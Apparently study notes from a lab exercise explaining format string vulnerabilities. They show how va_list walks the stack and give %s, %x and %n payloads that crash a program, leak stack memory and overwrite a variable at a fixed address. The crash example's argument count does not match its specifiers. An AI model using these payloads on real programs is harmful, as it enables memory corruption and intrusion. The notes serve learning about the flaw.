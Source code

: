> Show how format string vulnerability works.

Background: a pointer `va_list` points to the first argument of the function in the `fmtstr()` stack frame. The function `va_arg()` retrieves the next argument from the list and advances the pointer to the next argument.

1. Crash program.
    - `%s%s%s%s%s%s%s%s%s%s%s` will read 10 arguments from the stack. For each, it treats the 32-bit value as a pointer to a string, and prints the string. If that memory location is invalid, the program will crash.
2. Leak memory.
    - `%x.%x.%x.%x.%x.%x.%x.%x.%x` prints the integer value pointed by `va_list` and advances it by 4 bytes.
3. Write memory.
    - `%n` writes the number of characters printed so far
    - Change `var` (at `0xbffff304`) to `0x9896a9`
    - `echo $(printf "\x04\xf3\xff\xbf").%x.%x.%x.%x.%x.%n > input` (44 characters)
    - `echo $(printf "\x04\xf3\xff\xbf")_%.8x_%.8x_%.8x_%.8x_%.10000000x%n > input` (10000041 characters = 0x9896a9)